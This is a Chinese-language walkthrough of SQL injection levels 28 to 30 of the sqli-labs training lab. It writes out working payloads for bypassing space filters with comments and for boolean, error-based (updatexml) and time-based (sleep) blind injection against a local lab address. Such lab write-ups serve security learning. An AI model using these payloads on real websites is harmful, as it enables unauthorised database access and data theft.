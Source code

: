 ![image-20220922014957410](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922014957410.png)

## 第二十八关

![image-20220922015320722](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922015320722.png)

尝试`id=1'and/**/'2'='1`,/**/代替空格

![image-20220922020025940](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922020025940.png)

布尔注入

关键在于内容长度的变化

在获取数据库名称长度时，正确的内容长度为932

在获取数据库名称时，正确内容的长度为938

![image-20220922024526826](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922024526826.png)

## 第二十九关

一次就过了😂，不知道写啥

```
id=1'and(updatexml(1,concat(0x7e,database(),0x7e),1))or'
```

![](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922085550432.png)

## 第三十关

尝试`id=1'and(1=1)'`，失败

尝试`id=1"and(1=1)or"` 代码运行正常，等于-1，没有结果，等于一有结果，可以进行盲注

![image-20220922085921832](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922085921832.png)

获取database()长度

```
http://192.168.235.152/sqli-labs/Less-30?id=1"and(if(length(database())=*_*,sleep(1),1))or"
```

获取database()名称

```
http://192.168.235.152/sqli-labs/Less-30?id=1"and(if(substr(database(),1,1)='*_*',sleep(1),1))or"
```

![image-20220922102000900](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922102000900.png)

![image-20220922101946367](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922101946367.png)

## 第三十一关
